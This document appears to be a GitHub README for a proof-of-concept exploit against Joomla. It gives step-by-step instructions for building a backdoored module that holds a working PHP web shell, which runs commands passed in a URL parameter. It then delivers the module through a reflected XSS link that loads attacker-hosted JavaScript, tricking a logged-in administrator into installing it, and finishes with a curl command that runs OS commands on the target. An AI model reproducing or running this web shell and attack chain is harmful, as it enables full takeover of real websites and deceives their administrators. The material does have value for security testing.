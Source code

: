 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `mod_RCE_PoC.php`

    (`mod_RCE_PoC.xml`)

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <extension type="module" version="3.8" client="site" method="upgrade">
    	<name>Joomla RCE PoC</name>
    	<creationDate>Feb 2024</creationDate>
    	<author>test</author>
    	<authorEmail>test@localhost</authorEmail>
    	<authorUrl>https://localhost</authorUrl>
    	<copyright>test</copyright>
    	<version>1.0</version>
    	<files>
    		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
    		<filename>mod_RCE_PoC.xml</filename>
    	</files>
    </extension>
    ```

    (`mod_RCE_PoC.php`)

    ```
    <?php
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create Joomla module

    ```
    zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
    ```

3. [setup exploit] change payload variable values (`installModuleJoomla.js`)

    `exploitURL` - URL of Joomla module (containing backdoor) to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/installModuleJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on values specified in installed module

8. [uninstall module] uninstall module via GUI

    *Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_install_module_-_1-1.png)

